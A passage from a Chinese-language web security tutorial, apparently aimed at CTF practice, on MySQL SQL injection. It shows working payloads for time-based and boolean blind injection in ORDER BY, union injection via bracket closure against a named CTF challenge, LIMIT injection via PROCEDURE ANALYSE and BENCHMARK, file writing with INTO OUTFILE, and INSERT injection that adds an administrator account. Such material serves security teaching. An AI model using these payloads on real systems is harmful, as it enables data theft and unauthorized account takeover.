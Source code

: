 经过测试可以发现，`?title=id desc,(if(1，sleep(1),1))` 会让页面迟 1 秒，于是可以利用时间注入获取相关数据。

警告

该方法只能用在 mysql 5 上，mysql 8 上失效。

##### [](#13143-%E5%88%A9%E7%94%A8----%E4%BD%8D%E8%BF%90%E7%AE%97%E7%AC%A6%E8%BF%9B%E8%A1%8C-order-by)13.1.4.3 利用 & | ^ 位运算符进行 order by

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```sql<br>// 布尔型盲注<br>select * from wp_user_ order by id\|(if(1,2,1))<br><br>//id 和 if 返回的结果进行按位与进行 order by 根据时间判断<br><br>select * from wp_user_ order by 1\|if(database() regexp "sectest",sleep(1),0)<br>``` |

##### [](#13144-%E5%88%A9%E7%94%A8%E6%8B%AC%E5%8F%B7%E9%97%AD%E5%90%88%E8%BF%9B%E8%A1%8C%E8%81%94%E5%90%88%E6%9F%A5%E8%AF%A2)13.1.4.4 利用括号闭合进行联合查询

前提是前句查询必须带有括号。

`(select * from person order by 1) union (select 1,2,3)`

**Demo**

[https://chall.tasteless.eu/level1/index.php?dir=asc](https://chall.tasteless.eu/level1/index.php?dir=asc)

payload: `?dir=,3)union(select%201,flag%20from%20level1_flag)%23`

#### [](#1315-%E6%B3%A8%E5%85%A5%E7%82%B9%E5%9C%A8-limit-%E5%90%8E)13.1.5 注入点在 LIMIT 后

LIMIT 后的注入判断比较简单，通过更改数字大小，页面会显示更多或者更少的记录数。由于语法限制，前面的字符注入方式不可行（LIMIT 后只能是数字），在整个 SQL 语句没有 ORDER BY 关键字的情况下，可以直接使用 UNION 注入。

另外，可根据 SELECT 语法，通过加入 PROCEDURE 来尝试注入，这类语句只适合 MySQL 5.6 前的版本，

`select id from wp_news limit 2 procedure analyse(extractvalue(1,concat(0x7e,version())),1)`

也可以进行时间盲注

`procedure analyse((select extractvalue(1,concat(0x3a,(if(mid(version(),1,1) LIKE 5, BENCHMARK(500000, SHA(1)), 1))))),1)`

也可以直接写文件 `into outfile`

### [](#132-insert-%E6%B3%A8%E5%85%A5)13.2 INSERT 注入

通常，注入位于字段名或者字段值的地方，且没有回显信息

#### [](#1321-%E6%B3%A8%E5%85%A5%E7%82%B9%E4%BD%8D%E4%BA%8E-tbl_name)13.2.1 注入点位于 tbl\_name

如果能够通过注释符注释后续语句，则可直接插入特定数据到想要的表内，如管理员表。例如，对于如下 SQL 语句：

`$res = mysqli_query($conn, "INSERT INTO {$_GET['table']} VALUES(2,2,2,2)");`

开发者预想的是，控制 table 的值为 wp\_news，从而插入新闻表数据。由于可以控制表名，可以访问 `?table=wp_user values(2，'newadmin'，'newpass')%23`，直接插入管理员。
